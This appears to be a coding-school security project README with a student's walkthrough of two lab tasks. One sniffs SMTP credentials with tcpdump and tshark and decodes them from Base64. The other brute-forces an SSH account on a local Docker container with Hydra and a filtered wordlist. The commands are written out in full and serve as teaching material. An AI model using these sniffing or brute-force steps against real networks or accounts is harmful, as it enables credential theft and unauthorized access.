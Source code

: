 Tasks
0. ARP spoofing and sniffing unencrypted traffic
#advanced


Security is a vast topic, and network security is an important part of it. A lot of very sensitive information goes over networks that are used by many people, and some people might have bad intentions. Traffic going through a network can be intercepted by a malicious machine pretending to be another network device. Once the traffic is redirected to the malicious machine, the hacker can keep a copy of it and analyze it for potential interesting information. It is important to note that the traffic must then be forwarded to the actual device it was supposed to go (so that users and the system keep going as if nothing happened).

Any information that is not encrypted and sniffed by an attacker can be seen by the attacker - that could be your email password or credit card information. While today’s network security is much stronger than it used to be, there are still some legacy systems that are using unencrypted communication means. A popular one is telnet.

In this project, we will not go over ARP spoofing, but we’ll start by sniffing unencrypted traffic and getting information out of it.

Sendgrid offers is an emailing service that provides state of the art secure system to send emails, but also supports a legacy unsecured way: telnet. You can create an account for free, which is what I did, and send an email using telnet:

sylvain@ubuntu$ telnet smtp.sendgrid.net 587
Trying 167.89.121.145...
Connected to smtp.sendgrid.net.
Escape character is '^]'.
220 SG ESMTP service ready at ismtpd0013p1las1.sendgrid.net
EHLO ismtpd0013p1las1.sendgrid.net
250-smtp.sendgrid.net
250-8BITMIME
250-PIPELINING
250-SIZE 31457280
250-STARTTLS
250-AUTH PLAIN LOGIN
250 AUTH=PLAIN LOGIN
auth login           
334 VXNlcm5hbWU6
VGhpcyBpcyBteSBsb2dpbg==
334 UGFzc3dvcmQ6
WW91IHJlYWxseSB0aG91Z2h0IEkgd291bGQgbGV0IG15IHBhc3N3b3JkIGhlcmU/ISA6RA==
235 Authentication successful
mail from: sylvain@kalache.fr
250 Sender address accepted
rcpt to: julien@google.com
250 Recipient address accepted
data
354 Continue
To: Julien
From: Sylvain
Subject: Hello from the insecure world

I am sending you this email from a Terminal.
.
250 Ok: queued as Aq1zhMM3QYeEprixUiFYNg
quit
221 See you later
Connection closed by foreign host.
sylvain@ubuntu$ 
I wrote the script user_authenticating_into_server that performs the authentication steps that I just showed above. Your mission is to execute user_authenticating_into_server locally on your machine and, using tcpdump, sniff the network to find my password. Once you find it, paste the password in your answer file. This script will not work on a Docker container or Mac OS, use your Ubuntu vagrant machine or any other Linux machine.

You can download the script user_authenticating_into_server here

DISCLAIMER: you will probably see Authentication failed: Bad username / password in the tcpdump trace. It’s normal, we deleted the user to our Sendgrid account. You can’t verify the password found via Sendgrid, only the correction system can!

Repo:

GitHub repository: alx-system_engineering-devops
Directory: attack_is_the_best_defense
File: 0-sniffing
  
1. Dictionary attack
#advanced
Password-based authentication systems can be easily broken by using a dictionary attack (you’ll have to find your own password dictionary). Let’s try it on an SSH account.

Install Docker on your machine Ubuntu
Pull and run the Docker image sylvainkalache/264-1 with the command docker run -p 2222:22 -d -ti sylvainkalache/264-1
Find a password dictionary (you might need multiple of them)
Install and use hydra to try to brute force the account sylvain via SSH on the Docker container
Because the Docker container is running locally, hydra should access the SSH account via IP 127.0.0.1 and port 2222
Hint: the password is 11 characters long
Once you found the password, share it in your answer file.

Repo:

GitHub repository: alx-system_engineering-devops
Directory: attack_is_the_best_defense
File: 1-dictionary_attack












## **PROCEDURES OF BOTH TASKS**


Task 0: ARP Spoofing and Sniffing Unencrypted Traffic
Prerequisites
Before proceeding, ensure you have the required tools installed:

Download the Program:

Download the provided program:
curl -O https://s3.amazonaws.com/intranet-projects-files/holbertonschool-sysadmin_devops/264/user_authenticating_into_server
Install tcpdump:

Update your package list:
sudo apt-get update
Install tcpdump:
sudo apt-get install tcpdump
Install tshark:

Install tshark for more human-readable output:
sudo apt install tshark
Intercepting Data
Now you're ready to intercept data between the user_authenticating_into_server program and the SendGrid server.

Run tcpdump:

Execute the following command to capture network traffic:
sudo tcpdump -i eth0 -n -s 0 -A 'host smtp.sendgrid.net and port 587' -w sendgrid_traffic.pcap
-i eth0: Replace eth0 with the network interface your program uses.
-n: Display numeric IP addresses and port numbers instead of resolving hostnames and services.
-s 0: Capture the entire packet.
-A: Display packet data (payload) in ASCII format.
'host smtp.sendgrid.net and port 587': Capture traffic to and from SendGrid's SMTP server on port 587.
-w sendgrid_traffic.pcap: Save captured packets to a file for later analysis.
Run Your Program:

In a second Ubuntu terminal, give permission and then run your program:
sudo chmod +x user_authenticating_into_server
sudo ./user_authenticating_into_server
Capture and Analyze:

Wait for your program to execute, then interrupt the first terminal using CTRL-C.
You'll have a sendgrid_traffic.pcap file that you can analyze.
Analyzing the Capture
You can analyze the capture file using either tcpdump or tshark:

Using tcpdump:

tcpdump -r sendgrid_traffic.pcap
Using tshark for more human-readable output:

15 3.999733 172.31.145.221 → 54.228.39.88 SMTP 80 C: User: bXlsb2dpbg==
16 4.069955 54.228.39.88 → 172.31.145.221 TCP 66 587 → 57152 [ACK] Seq=196 Ack=63 Win=32256 Len=0 TSval=2327286244 TSecr=1468075274
17 4.069956 54.228.39.88 → 172.31.145.221 SMTP 84 S: 334 UGFzc3dvcmQ6
18 4.070087 172.31.145.221 → 54.228.39.88 TCP 66 57152 → 587 [ACK] Seq=63 Ack=214 Win=64128 Len=0 TSval=1468075345 TSecr=2327286244
19 6.001628 172.31.145.221 → 54.228.39.88 SMTP 88 C: Pass: bXlwYXNzd29yZDk4OTgh
This part of the output shows the authentication process with the information:

User: bXlsb2dpbg==

Pass: bXlwYXNzd29yZDk4OTgh

Credentials are Base64 encoded, so the decoded information would be:

User: mylogin

Pass: mypassword9898!

Task 1: Dictionary Attack
Performing a dictionary attack using Hydra to guess a password for an SSH account.

Prerequisites
Docker: Install Docker
Setup
Pull and run the Docker image sylvainkalache/264-1 with the following command:

docker run -p 2222:22 -d -ti sylvainkalache/264-1
Start the Docker container by replacing <container_id> with the ID of the newly created sylvainkalache/264-1 container:

docker start -ai <container_id>
Install Hydra:

sudo apt-get install hydra
Download a potential password list in .txt format. You can find one in the SecLists library.

To save time and resources, isolate passwords with 11 characters from your password list:

grep -oE '\b\w{11}\b' all_passwords.txt > 11_char_passwords.txt
Running the Attack
Run Hydra with the specified requirements:

hydra -l sylvain -P 11_char_passwords.txt ssh://127.0.0.1
-l sylvain: Specifies the target username as "sylvain." This is the username for which you are attempting to guess the password.

-P 11_char_passwords.txt: Specifies the password list or wordlist you are using for the attack. In this case, the wordlist contains passwords with 11 characters. Hydra will try each password from this list in an attempt to gain access to the SSH service.

ssh://127.0.0.1: Specifies the target SSH service running on the local host (127.0.0.1). Hydra will attempt to log in to this SSH service using the provided username and the passwords from the wordlist.

Please practice patience as hydra tries every password in the file until it finds the right one. Once successful, it will return an output similar to:

[22][ssh] host: 127.0.0.1   login: sylvain   password: password123
1 of 1 target successfully completed, 1 valid password found 
